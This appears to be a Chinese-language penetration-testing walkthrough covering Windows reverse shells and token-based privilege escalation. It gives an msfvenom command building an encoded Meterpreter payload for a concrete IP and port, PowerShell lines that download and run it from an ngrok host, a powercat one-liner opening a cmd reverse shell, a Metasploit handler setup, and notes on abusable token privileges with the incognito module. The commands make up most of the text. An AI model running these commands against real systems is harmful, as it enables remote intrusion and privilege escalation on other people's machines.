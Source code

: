 生成reverse_shell

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=115.236.153.174 LPORT=16806 -f exe -o shell.exe
```

下载shell并执行

```
powershell "(New-Object System.Net.WebClient).Downloadfile('https://efc4-183-134-99-166.ngrok-free.app/shell.exe','shell.exe')"
//在之前的shell上执行
Start-Process "shell.exe"
```


```python
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 115.236.153.174 -p 16806 -e cmd
```
msf本地监听

```shell
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

#### root

>   Window使用令牌来确保账户具有执行特定操作的适当权限. 账户令牌在用户登录或进行身份验证时分配给账户.一般有LSASS.exe完成
>
>   有两种类型的访问令牌：
>
>   -   主访问令牌：与登录时生成的用户帐户关联的令牌
>   -   模拟令牌：这些令牌允许特定进程（或进程中的线程）使用另一个（用户/客户端）进程的令牌访问资源
>
>   帐户的权限（在创建帐户时授予帐户或从组继承）允许用户执行特定操作。以下是最常被滥用的特权：
>
>   -   SeImpersonatePrivilege
>   -   SeAssignPrimaryPrivilege
>   -   SeTcbPrivilege
>   -   SeBackupPrivilege
>   -   SeRestorePrivilege
>   -   SeCreateTokenPrivilege
>   -   SeLoadDriverPrivilege
>   -   SeTakeOwnershipPrivilege
>   -   SeDebugPrivilege

```powershell
//查找所有特权
whoami /priv | Select-String -Pattern "enabled"
```

![image-20230424005811186](https://gitee.com/leiye87/typora_picture/raw/master/20230424005812.png)

```shell
//加载隐身模块
load incognito
```

